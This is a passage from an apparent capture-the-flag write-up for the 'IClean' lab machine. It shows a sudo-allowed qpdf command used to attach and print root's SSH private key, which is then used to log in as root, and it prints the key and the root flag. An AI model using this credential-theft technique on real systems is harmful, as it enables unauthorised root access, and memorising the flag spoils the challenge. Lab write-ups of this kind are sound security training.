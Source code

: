 ```bash
consuela@iclean:~$ sudo /usr/bin/qpdf --empty --add-attachment /root/.ssh/id_rsa -- /tmp/root.pdf
consuela@iclean:~$ qpdf --list-attachments /tmp/root.pdf
id_rsa -> 5,0
consuela@iclean:~$ qpdf --show-attachment=id_rsa /tmp/root.pdf
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Save the key to `root.id_rsa`

```bash
┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ chmod 600 root.id_rsa

┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ ssh -i root.id_rsa root@$(pt get rhost)
[...]
root@iclean:~# id
uid=0(root) gid=0(root) groups=0(root)
root@iclean:~# cat root.txt
4378ba4bedcc5a77cc2912a6905b7cd2
root@iclean:~#
```

# Additional
---
